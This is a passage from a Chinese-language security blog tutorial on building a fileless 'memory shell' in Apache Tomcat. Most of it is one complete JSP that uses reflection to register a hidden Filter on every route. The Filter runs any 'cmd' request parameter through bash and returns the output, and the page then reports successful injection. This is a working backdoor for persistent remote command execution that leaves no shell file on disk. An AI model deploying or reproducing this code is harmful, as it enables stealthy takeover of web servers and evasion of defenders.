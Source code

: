 运行效果：

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ08rPmDpsAPc6nV9icBib7HBUsias5MK1ibQI1w4fuLyTZd7krCS24ZJzYBfCtyeooTTqibW3zk30tPib1JQ/640?wx_fmt=png)

可以看到这个就是在 tomcat 中没有任何 shell 文件，但是在过滤器中执行了我们的代码。

### 0x0402 最终实战

那么真实情况下，我们不可能直接修改项目中 Filter 的源码，因为就算修改了，想要生效也需要重启。所以我们需要动态的插入 filter，那我们该如何操作呢？

最终代码如下：

```
<%@ page import="org.apache.catalina.core.ApplicationContext" %><%@ page import="java.lang.reflect.Field" %><%@ page import="org.apache.catalina.core.StandardContext" %><%@ page import="java.util.Map" %><%@ page import="java.io.IOException" %><%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %><%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %><%@ page import="java.lang.reflect.Constructor" %><%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %><%@ page import="org.apache.catalina.Context" %><%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%><%    final String name = "fengxuan";    ServletContext servletContext = request.getSession().getServletContext();    Field appctx = servletContext.getClass().getDeclaredField("context");    appctx.setAccessible(true);    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);    Field stdctx = applicationContext.getClass().getDeclaredField("context");    stdctx.setAccessible(true);    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);    Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");    Configs.setAccessible(true);    Map filterConfigs = (Map) Configs.get(standardContext);    if (filterConfigs.get(name) == null){        Filter filter = new Filter() {            @Override            public void init(FilterConfig filterConfig) throws ServletException {            }            @Override            public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {                //这里写上我们后门的主要代码                HttpServletRequest req = (HttpServletRequest) servletRequest;                if (req.getParameter("cmd") != null){                    byte[] bytes = new byte[1024];                    Process process = new ProcessBuilder("bash","-c",req.getParameter("cmd")).start();                    int len = process.getInputStream().read(bytes);                    servletResponse.getWriter().write(new String(bytes,0,len));                    process.destroy();                    return;                }                //别忘记带这个，不然的话其他的过滤器可能无法使用                filterChain.doFilter(servletRequest,servletResponse);            }            @Override            public void destroy() {            }        };        FilterDef filterDef = new FilterDef();        filterDef.setFilter(filter);        filterDef.setFilterName(name);        filterDef.setFilterClass(filter.getClass().getName());                // 将filterDef添加到filterDefs中        standardContext.addFilterDef(filterDef);        FilterMap filterMap = new FilterMap();      //拦截的路由规则，/* 表示拦截任意路由        filterMap.addURLPattern("/*");        filterMap.setFilterName(name);        filterMap.setDispatcher(DispatcherType.REQUEST.name());        standardContext.addFilterMapBefore(filterMap);        Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);        constructor.setAccessible(true);        ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);        filterConfigs.put(name,filterConfig);        out.print("注入成功");    }%>
```

访问这个页面

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ08rPmDpsAPc6nV9icBib7HBUs50T4ubbn3Qv9KGZ3Nk0Ciah6C0MPMJPb5vgqlD8qNiaqOnLrdKf84xZg/640?wx_fmt=png)

最后直接访问任意 Servlet 路由都可以执行命令
